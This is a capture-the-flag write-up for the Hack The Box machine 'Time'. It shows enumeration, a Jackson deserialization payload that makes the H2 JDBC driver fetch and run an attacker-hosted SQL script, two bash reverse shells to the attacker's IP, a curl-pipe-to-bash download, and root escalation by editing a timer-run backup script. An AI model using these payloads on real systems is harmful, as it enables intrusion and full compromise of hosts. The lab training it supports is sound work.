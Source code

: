 # Time

This is the write-up for the box Time that got retired at the 3rd April 2021.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.214    time.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/time.nmap 10.10.10.214
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Online JSON parser
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page hosts an _online JSON beautifier & validator_ and the _validate_ function is marked as "beta".

![JSON beautifier & validator](time_web-1.png)

It parses JSON data, but the _validate_ function displays that _"Validation failed"_.

When sending anything other than JSON data to the validator, it displays a **Java error message**:
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'anything': was expecting ('true', 'false' or 'null')
```

It uses the [Jackson](https://github.com/FasterXML/jackson) library to parse JSON for Java.
By searching for vulnerabilities in **Java Jackson**, an [article from Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) explains a Remote Code Execution vulnerability.

Sending the payload from the article to check the **JDBC Driver**:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:"}]

Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.JsonMappingException: Infinite recursion (StackOverflowError) (through reference chain: org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]
->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]
(...)
```

Using the JDBC Driver to check if it connects to our client:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:8000/inject.sql'"}]
```
```
nc -lvnp 8000

Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:50170.
GET /inject.sql HTTP/1.1
User-Agent: Java/11.0.8
Host: 10.10.14.10:8000
```

The connection is successful, so a malicious script has to be hosted on our local client and Java will execute it.
Creating a script that executes a reverse shell:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.10/9001 0>&1')
```

Sending the payload again:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:8000/inject.sql'"}]
```

After sending the payload, it will download _inject.sql_ and execute the command to start a reverse shell connection on the listener on my IP and port 9001 as the user _pericles_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

The user _pericles_ owns the file _/usr/bin/timer_backup.sh_ that compresses the directory of the web page and puts it in the home folder of root:
```
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

This bash script is used in a **Systemd Timer** and is automatically executed:
```
grep -r timer_backup.sh / 2>/dev/null
/etc/systemd/system/web_backup.service
```

The script can be edited to execute a reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'
```

After saving the file, the **Systemd timer** will run it and the listener on my IP and port 9002 starts a reverse shell as root!

